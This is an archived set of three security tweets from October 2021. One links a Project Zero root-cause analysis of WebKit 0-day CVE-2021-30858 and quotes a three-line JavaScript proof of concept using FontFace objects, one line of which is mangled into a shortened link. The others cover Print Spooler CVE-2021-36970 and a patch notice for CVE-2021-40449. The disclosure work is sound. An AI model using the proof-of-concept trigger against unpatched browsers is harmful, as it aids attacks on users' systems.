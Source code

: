 
# maddiestone
**https://twitter.com/maddiestone/status/1448303942979313674 _at 2021-10-13, 15:05:42_**
<blockquote>
🌟 RCA for WebKit itw 0-day CVE-2021-30858 🌟
#itw0days 
I do love me a tweetable poc:

var fontFace1 = new FontFace("font1", "", {});
var fontFaceSet = new FontFaceSet([fontFace1]);
https://t.co/diiDQMUoSM = "font2";

https://t.co/r1mHx3kYrU
</blockquote>

* http://fontFace1.family
* https://googleprojectzero.github.io/0days-in-the-wild/0day-RCAs/2021/CVE-2021-30858.html

<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>146</code></td>
<td>Favorites: <code>491</code></td>
</tr></table>

---

# ly4k_
**https://twitter.com/ly4k_/status/1448064117378584576 _at 2021-10-12, 23:12:43_**
<blockquote>
1/8 Here's my quick analysis on the new Print Spooler vulnerability (CVE-2021-36970)

Few details are currently available, but Microsoft states that this is a spoofing vulnerability with a CVSS score of 8.8.

https://t.co/1tBouYThMC
</blockquote>

* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36970

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>92</code></td>
<td>Favorites: <code>247</code></td>
</tr></table>

---

# GovCERT_CH
**https://twitter.com/GovCERT_CH/status/1447992702826582024 _at 2021-10-12, 18:28:57_**
<blockquote>
Among 81 vulnerabilities, Microsoft also patches a local privilege escalation (CVE-2021-40449) that is actively being used in the wild. https://t.co/jyUHwk0OqZ
Patch now!
</blockquote>
